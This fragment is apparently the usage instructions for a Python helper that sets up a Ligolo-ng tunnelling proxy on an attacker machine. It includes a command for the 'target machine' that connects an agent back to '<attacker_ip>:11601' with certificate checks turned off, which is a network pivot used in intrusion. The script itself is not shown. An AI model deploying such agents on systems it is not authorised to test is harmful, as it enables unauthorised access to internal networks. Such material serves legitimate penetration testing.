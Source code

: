 Usage Instructions:

Save the Script: Save the script to a file, for example, ligolo_setup.py.

Make the Script Executable: Run chmod +x ligolo_setup.py to make the script executable.

Execute the Script: Run the script with the required arguments:

./ligolo_setup.py --proxy-path /path/to/proxy --listen-address 0.0.0.0:11601 --interface-name ligolo

Deploy the Agent: On the target machine, download the appropriate Ligolo-ng agent binary and run it using the command provided by the script:

./agent -connect <attacker_ip>:11601 -ignore-cert Replace <attacker_ip> with the IP address of your attack machine
